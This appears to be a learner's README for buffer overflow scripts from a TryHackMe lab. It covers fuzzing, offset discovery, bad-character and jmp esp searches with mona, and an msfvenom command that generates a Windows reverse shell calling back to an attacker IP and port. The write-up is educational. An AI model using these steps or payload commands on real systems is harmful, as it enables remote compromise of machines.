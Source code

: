 # BoF
Buffer Overflow Script
(Typos exist)

We start with saying. This is just for documentation and me for learning Buffer Overflows.
I will explain in the script what is goning on instead of writing it here.
Sometimes I edit script 10 times to get it to work, and I do not want to update the README every time.

More details and step by step can be bound here: 
https://jensoroger.wordpress.com/2021/01/19/explain-in-my-own-way-how-to-do-basic-buffer-overflow-with-help-from-realtryhackme-bufferoverlow-hacking-infosec-linux4hackers-pentest-pentesting-redteam/

## Step 1 General about fuzzing
The Goal here is to crash tha application and make the application execute "our" that we decide.
You need to know how the application works, are login first and the something else that we want to fuzz (crash).

## Step 2 Finding the offset
The goal here is to get control of EIP int the stack, for that to happend we need to find the offset. 

### Step 2.1 (fuzz.py)
Crash the application with fuzz.py and see if EIP contains AAAA.
What is needed in the script. 
ip, port, string

We also need to verify with ex. Immunity Debugger that EIP contains AAAA


### Step 2. Crash the application and find offset (payload1.py)
Here we want to try finding out if we can control the buffer
We create a payload that are random with pattern_create.rb and then verify if we can find the offset for example with Immunty Debugger.

ip, port, overflow, payload (random data), buffer

Immunity Debugger and mona are used for this

### Step 2.2 Verify the offset (payload2.py)
Here we just verify that all is correct

ip, port, offsett, retn, payload, buffer, 

Immunity Debugger and mona are used for this

## Step 3 Find bad characters that we can not use in our all characters \x00  (payload3.py)
ip, port, offsett, retn, payload = bad charachter, buffer

Immunity Debugger and mona are used for this

!mona bytearray -b "\x00"

!mona compare -f C:\mona\oscp\bytearray.bin -a "ESP"

 Message=Possibly bad chars: 01 02 03 04


## Step 3.1 Find characters minus 3.1 founded  characters (payload3.py edited)
ip, port, offsett, retn, payload = bad charachter, buffer

Immunity Debugger and mona are used for this

!mona bytearray -b "\x00\x01"

!mona compare -f C:\mona\"procename"bytearray.bin -a "ESP"

Do this until you have Unmodified 

## Step 4 Finding jump adress (payload3.py)
In mona after step 3 and add the bad characters that you find.
!mona jmp -r esp -cpb "\x00"
Choose a nice adress in the list

## Step 5 Creating the payload (payload4.py)
ip, port, offsett, retn, payload = buf, padding, buffer

Immunity Debugger and mona are used for this

Here you need to know what OS is running the application. It is hard to create a reverse shell from Windows machine with a payload for Linux.
Also the padding my need som ajustments.

Payload exemples that you can use the out put in the script
LHOST=Your attacker box IP
LPORT=What port will the victim use to connect to your attack box
-b= That is the bad characters that you will find in step 3
-f=The output will be in pyton, so we can add this payload to the script.
msfvenom -p windows/shell_reverse_tcp LHOST=172.21.21.34 LPORT=4444 EXITFUNC=thread -b "\x00" -f py


## Brainstorm from tryhackme
The main thing in this BoF was that the first thing that happens when you connect to the application on port 9999
is that a login appears.This has maximum 20 char. Tried first fuzzing that. But found out that this is not gonna happend.
When you enter a username and then you are getting a send message prompt and that is vulnerble.
So in our payload we need to sen Username and a payload.

##Fuzz
python2 ./fuzz.py 
Login with user name roger and fuzzing Chat with 100 bytes
.
.
Login with user name roger and fuzzing Chat with 2200 bytes
Could not connect to 172.21.21.28:9999

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

##Payload 
Create Payload payload.py

!mona findmsp -distance 2500

Offset 2012

0 bad characters

msfvenom -p windows/shell_reverse_tcp LHOST=172.21.21.34 LPORT=4444 EXITFUNC=thread -b "\x00" -f py

Log data, item 11
 Address=625014DF
 Message=  0x625014df : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\win7.INVID\Desktop\vulnerable-apps\chat server\essfunc.dll)

